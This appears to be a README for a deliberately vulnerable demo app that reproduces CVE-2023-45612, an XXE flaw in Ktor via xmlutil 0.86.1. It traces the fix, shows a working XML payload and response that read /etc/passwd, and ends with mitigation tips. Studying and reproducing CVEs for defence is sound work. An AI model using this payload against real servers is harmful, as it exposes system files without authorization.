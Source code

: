 # ktor-vulnerable-demo

CVE-2023-45612 is a vulnerability related to the fact that using default configuration in one of Ktor's components results in an attacker's ability to exploit XXE injection. Down below I will continue to explain how to reproduce it, why this is a vulnerability and some mitigation techniques based on the vulnerable code.

Given the fact that I approached this CVE for the first time, along with also interacting with Ktor and Kotlin for the first time, I will also explain my thought process with how I identifies the vulnerable version in order to deploy a Ktor app that uses it.

First, it all began with a Google search: `CVE-2023-45612`, then I accessed `https://www.jetbrains.com/privacy-security/issues-fixed/`, where I found the PR with the vulnerability fix `https://github.com/ktorio/ktor/pull/3770`. The fix here was to update `xmlutil` from `0.86.1` to `0.86.2`. Actually, here, Ktor was using a dependency that was vulnerable. So I went exactly to `xmlutil` and downloaded the `0.86.1` release to analyze it further. I also checked which the latest Ktor version that used `0.86.1` was and found it to be `Ktor 2.3.4`. I also downloaded that and started analyzing the code.

I will not go into the code details of the vulnerability, I will just mention that the vulnerability occurs because `XMLInputFactory.newFactory()` creates a factory with **external entity processing enabled by default**, allowing XXE attacks when processing XML content through Ktor's ContentNegotiation plugin.

Continuing with how to actually reproduce it, I began searching how to set up a project that uses Ktor and also analyzed `xmlutil 0.86.2` to see how it tested for XXE in the fixed version. I set up a GitHub repo from which you can pull the code.

```

git clone https://github.com/cristibtz/ktor-vulnerable-demo.git

cd ktor-vulnerable-demo

./gradlew build && ./gradlew run

```

I think it's worth mentioning the specs of my environment, because I found myself having some errors in the process of running the app, because of lack of experience with Java, Gradle, etc. But I got it working with these specs.

```

Java & Environment Specifications

Java Runtime

- Java Version: OpenJDK 21.0.8 (LTS)

- Java Distribution: OpenJDK (Ubuntu build)

- Build: 21.0.8+9-Ubuntu-0ubuntu124.04.1

- VM: OpenJDK 64-Bit Server VM

- Target JVM: 1.8

Build Tools

- Gradle Version: 7.6.1

- Gradle Wrapper: 7.6.1-bin

- Kotlin Version: 1.8.22

Framework Versions

- Ktor Version: 2.3.4 (vulnerable version)

- XMLUtil Version: 0.86.1 (vulnerable)

- Kotlinx Serialization: 1.5.1

Operating System

- OS: Linux (Ubuntu 24.04)

- Kernel: 6.8.0-79-generic amd64

- Architecture: x86_64

```

Now, after the app is running, I personally used Burp Suite for exploitation, sending the following request:

```Request

POST /data HTTP/1.1

Host: localhost:8880

Content-Type: application/xml

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36

Content-Length: 58

<SimpleData>

<value>

Hello

</value>

</SimpleData>

```

Response

```Response

HTTP/1.1 200 OK

Content-Length: 76

Content-Type: text/plain; charset=UTF-8

Data processed:

Hello

Normal data

```

Now, to test for XXE, I used this request, with the classical read from `/etc/passwd`:

```Request

POST /data HTTP/1.1

Host: localhost:8880

Content-Type: application/xml

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36

Content-Length: 142

<!DOCTYPE foo [

<!ELEMENT foo ANY >

<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

<SimpleData>

<value>

&xxe;

</value>

</SimpleData>

```

Response

```Response

HTTP/1.1 200 OK

Content-Length: 1914

Content-Type: text/plain; charset=UTF-8

Data processed:

root:x:0:0:root:/root:/bin/bash

daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

bin:x:2:2:bin:/bin:/usr/sbin/nologin

sys:x:3:3:sys:/dev:/usr/sbin/nologin

sync:x:4:65534:sync:/bin:/bin/sync

games:x:5:60:games:/usr/games:/usr/sbin/nologin

...

XXE SUCCESS!

```

And this is a simple PoC for CVE-2023-45612, taking advantage of a simple misconfiguration, which I will explain briefly below.

As I said above, the vulnerability is located in `xmlutil-0.86.1`, file `StAXReader.kt`, line `47`(even though there are three vulnerable constructors on the following lines, we'll talk about line `47` only).

```

@Throws(XMLStreamException::class)

public constructor(source: Source) : this(XMLInputFactory.newFactory().createXMLStreamReader(source))

```

In the following version `xmlutil-0.86.2` this line was replaced with

```

@Throws(XMLStreamException::class)

public constructor(reader: Reader) : this(safeInputFactory().createXMLStreamReader(reader))

```

which represents a safe way to parse XML, because it doesn't allow the parsing of external entities by default.

```kotlin

private fun safeInputFactory(): XMLInputFactory {
	return XMLInputFactory.newFactory().apply {
	setProperty(XMLInputFactory.IS_SUPPORTING_EXTERNAL_ENTITIES, false)
	setProperty(XMLInputFactory.SUPPORT_DTD, false)
	}
}

```

To help mitigate these kinds of problems in the future, I would recommend to developers the following tips:

* Always make sure to disable External Entities and DTDs regardless of the parser used, if they are not expected as input

* If XML is not a must, use JSON because it doesn't include external entities at all.

* Validate the input against a strict schema that defines expected data types and patterns. Always escape characters like `<`, `>` or `&`

* Regularly update libraries, as it was the case here, to avoid using outdated and vulnerable libraries

* Use SAST techniques to occasionally analyze the used libraries' code

As a summary, I explained my thought process of identifying, beginning with CVE-2023-45612, the vulnerable versions and the vulnerable chain, starting from Ktor's ContentNegotiation.kt up until xmlutil-0.86.1 StAXReader.kt. Then, I showed a simple PoC that allowed me to read /etc/passwd and ending with some useful tips for developers to be able to avoid such vulnerabilities in the future.
